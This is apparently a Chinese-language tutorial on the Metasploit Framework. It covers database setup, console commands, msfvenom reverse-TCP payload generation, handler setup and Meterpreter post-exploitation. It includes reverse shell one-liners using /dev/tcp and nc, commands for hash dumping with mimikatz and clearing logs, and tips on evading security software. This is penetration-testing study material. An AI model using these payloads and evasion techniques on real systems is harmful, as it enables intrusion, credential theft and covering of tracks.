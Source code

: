 # Metasploit

该工具存在免费版本 Metasploit Framework 和付费版本 Metasploit Pro, 后者提供了许多实用的专业功能, 可以简化工作流程, 但是天价.  
以下内容均以 Metasploit Framework(MSF) 为例.  

## 数据库

配置数据库后才能使用工作区相关功能, 可以将部分重要数据自动保存在数据库中, 方便后续使用.  

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.  

```sh
# Arch/Manjaro
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

# Kali
sudo service postgresql start  # 启用数据库服务
sudo service postgresql status # 检查数据库服务状态

msfdb init   # 初始化数据库
msfdb status # 检查数据库服务状态, 包括监听端口

msfdb start # 启动数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.  

之后便可以使用数据库相关指令, 关键信息(如主机/服务/漏洞/战利品)会被记录到数据库中以便后续查询.  

## 快速入门

```sh
# 数据库/工作区
msf > workspace [name]             # 切换工作区
msf > workspace -a [name]          # 添加工作区
msf > db_nmap [...]                # 调用 nmap 进行扫描, 比将结果保存到当前工作区
msf > db_export -f [format] [file] # 将当前工作区中的数据以指定格式(通常是 xml)导出到文件中, 导出结果可能为空, 需要进行检查

# 查找/选择 module
msf > search [[type:]keyword] # 搜索 module
msf > use [id/module]         # 使用 module, module 的名称或 search 指令结果中的 id
msf > use [id/module]         # 显示 module 的详细信息.
msf > setg [option] [value]   # 设置默认选项, 避免切换 module 时重复填写不变的参数

# 使用 module
msf(module) > options                 # 显示当前 module 的选项
msf(module) > info                    # 显示当前 module 的详细信息
msf(module) > show [option]           # 显示选项的可用选项
msf(module) > set [option] [id/value] # 设置选项, 选项的值或 show 指令结果中的 id
msf(module) > check                   # 部分 exploit module 支持, 用于验证 RHOSTS 是否可以被利用
msf(module) > run                     # 执行 module

# 会话管理
msf > sessions         # 列出会话, -l
msf > sessions [id]    # 打开会话, -i
msf > sessions -u [id] # 将 shell 升级到 meterpreter

# 故障排除
msf > setg LogLevel 5          # 日志详细等级, 范围 1-5
cat ~/.msf6/logs/framework.log # 查看日志
msf > debug                    # 显示诊断信息, 在故障发生后使用
```

更多内容请参考扩展中的 Metasploit Cheat Sheet.  

## 载荷

**别名**: 攻击载荷, 有效载荷.  

MSF 中的载荷(payload)共有以下三种:  

- Singles: 包含完整的功能, 不依赖 MSF, 因此不需要通过 exploit/multi/handler 来建立连接.
- Stagers: 小巧可靠, 用于建立连接并接收 Stages.
    - bind: 正向连接, MSF 主动尝试与目标中的 stager 建立连接.
    - reverse: 反向连接, 目标中的 stager 尝试与 MSF 连接. 可以绕过部分防火墙规则.
    - https: 伪装成正常 HTTPS 流量进行通讯. 可以绕过部分防火墙规则且更难被探测器识别.
- Stages: 无大小限制, 包含高级功能.

在遇见 "载荷" 一词时应结合上下文推断具体含义.  
命名规则是 `<platform>/[arch]/<single>` 和 `<platform>/[arch]/<stage>/<stager>`, 比如 `windows/x64/meterpreter/reverse_tcp` 就代表 Windows 下使用 x64 指令集编写的使用 tcp 协议反向建立连接的 stager, 用于接收 meterpreter 这个 stage.  

### 生成载荷

使用 msfvenom(msfpayload 和 msfencode 的替代品) 来生成载荷, 详情请参考[官方教程](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).  
需要根据具体情况(包括漏洞利用方式, 架构, 系统, 环境, 通讯方式等)选择合适的载荷/编码器/格式等其他参数.  

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=[LHOST] LPORT=[LPORT] rc4password=[password] -f exe -o ~/payload.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp     LHOST=[LHOST] LPORT=[LPORT]                        -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp       LHOST=[LHOST] LPORT=[LPORT]                        -f elf -o ~/payload

msfvenom -l payload  # 查看载荷, 根据目标进行选择
msfvenom -l format   # 查看格式, 可以是可执行文件/脚本, 也可以只是用于源代码的 shellcode 代码片段
msfvenom -l encoders # 查看编码器
```

除了上传可执行文件到目标并执行, 也可以直接利用目标上的命令来获取 shell, 然后再将 shell 升级为 meterpreter.  

```sh
bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1
nc [LHOST] [LPORT] -e /bin/sh
```

选择 shell_reverse_tcp 作为载荷并建立连接.  

除了直接生成可执行文件/脚本, msfvenom 也可以直接生成 shellcode. 常用选项:  

- -a 指定架构.
- --platform 指定操作系统.
- -e 指定编码器.
- -i 指定编码次数.
- -b 指定 bad chars.
- -s 指定最大大小.
- --smallest 生成最小的.

### 建立连接

使用 handler 来与目标中的 stager 建立连接, 并上传 stage.  

```sh
msf > use exploit/multi/handler
msf > set payload [id/value]
# ... 设置载荷中的参数 ...
msf > set ExitOnSession false # 建立连接后不结束监听
msf > run -j                  # 开始监听并作为后台任务运行, 因为这是一个堵塞操作
```

## [Meterpreter](https://github.com/rapid7/metasploit-payloads)

Meterpreter 是一种特殊的多功能载荷, 可以动态加载/执行/卸载脚本和插件, 充分利用其功能可以使后渗透攻击变得十分方便.  
以下列举几个常用功能:  

```sh
# 权限提升
meterpreter > getsystem [...]   # 自动提权
meterpreter > steal_token [pid] # 通过窃取拥有更高权限的进程的令牌提权

# 获取密码
meterpreter > load mimikatz                          # 载入 mimikatz
meterpreter > run post/windows/gather/smart_hashdump # 导出账户密码 hash

# 清除痕迹
meterpreter > clearev         # 清除应用/系统/安全日志
meterpreter > timestomp [...] # 编辑文件属性(包括创建/最后修改时间)

# 使用 module
meterpreter > search type:post  # 列出 post module
meterpreter > run [module]      # 执行 module, 主要位于 "post/[system]" 下
```

## 故障排除

- PostgreSQL 服务启动失败, 原因: "/var/lib/postgres/data" is missing or empty.

    ```sh
    sudo -i
    su - postgres -c "initdb --locale en_US.UTF-8 -D '/var/lib/postgres/data'"
    exit
    ```

- Meterpreter 会话意外关闭, 返回原因 Died / exploit/multi/handler 无法和目标建立连接 / 目标上的接收器发生段错误, 可能是又以下几个原因导致的:  

    - MSF 和 Meterpreter 的版本不兼容: 解决方法是确保版本相同.
    - 载荷不匹配: 该问题会导致目标上的 Stagers 发生段错误, exploit/multi/handler 中设置的载荷(类型/系统/架构)与目标上期待的不一致, 解决方法是确保载荷一致.
    - 被安全软件终止: 该问题会导致会话成功建立却意外关闭, 可能的解决方法有:  

        1. 转移进程: 通过 `set AutoRunScript "migrate -n explorer.exe"` 在链接建立后立即转移到其他进程, 以规避安全软件的检测.
        2. 混淆: 生成载荷时使用编码器混淆并加密代码, 以规避安全软件对内存中代码的特征检测. 或通过 `set EnableStageEncoding true` 对发送的 stage 进行编码, 以规避安全软件对流量特征的识别.

- msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:  

    ```
    [blackarch]
    SigLevel = Optional TrustAll
    Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
    ```

## 参见

- [Metasploit Documentation](https://docs.metasploit.com/)
- [Metasploit Cheat Sheet](https://www.comparitech.com/net-admin/metasploit-cheat-sheet/)
- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>
- [mimikatz](https://github.com/ParrotSec/mimikatz)

## 参考

- <https://www.offensive-security.com/metasploit-unleashed/payloads/>
